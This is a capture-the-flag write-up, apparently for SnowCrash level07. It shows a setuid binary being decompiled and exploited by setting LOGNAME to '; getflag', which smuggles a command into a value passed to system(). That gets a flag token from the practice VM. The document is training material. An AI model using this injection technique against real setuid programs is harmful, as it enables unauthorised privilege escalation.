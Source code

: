 # level07
_The ritual_ :
- `pwd`: `/home/user/level07`
- `id`: `uid=2007(level07) gid=2007(level07) groups=2007(level07),100(users)`
- `ls -la`:
```sh
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
```
- `find / -user flag07 2> /dev/null`: nothing

## _BINARY FILE_
```sh
level07@SnowCrash:~$ ./level07
level07
level07@SnowCrash:~$
```
_???_
```sh
level07@SnowCrash:~$ ./level07 "Noah my beloved"
level07
level07@SnowCrash:~$
```
_It only print the first argument `argv[0]` ?_
```sh
level07@SnowCrash:~$ strings level07
...
setresuid@@GLIBC_2.0
...
level07@SnowCrash:~$
```

_From now on, my second ritual will be to decompile all the binary files that I find._

```sh
➜  ~ scp -P 4242 level07@127.0.0.1:/home/user/level07/level07 /Users/mayoub/Desktop/
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15 fec0::7556:8938:f6af:c775 fec0::5054:ff:fe12:3456
level07@127.0.0.1's password:
level07                                                                                                                                                                   100% 8805   501.9KB/s   00:00
➜  ~
```

## _DECOMPILATION TIME_

![decompiled_binary](../../assets/level07/decompiled_binary.png)

_Okayyyy it print the `LOGNAME` environnement variable, and not the first argument._

_So, if I understand, it execute `echo` with `LOGNAME`, let's try a trick :_
```sh
level07@SnowCrash:~$ export LOGNAME='; getflag'
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$
```

# <u>_WTF IT WORKS OH MY GOD ?!?!?!?!_</u>
_It's only that. I didn't expect something so simple after the previous level... It's fishy..._
- But let's explain what `asprintf` do : imagine just the output of `printf` but you assign it to a variable, here the first argument `local_1c` who's a string character.

# That was easy

- Let's login to `level07` directly :
```sh
level07@SnowCrash:~$ su level08
Password:
level08@SnowCrash:~$
```
# level07 complet !
![yeah](../../assets/yeah.gif)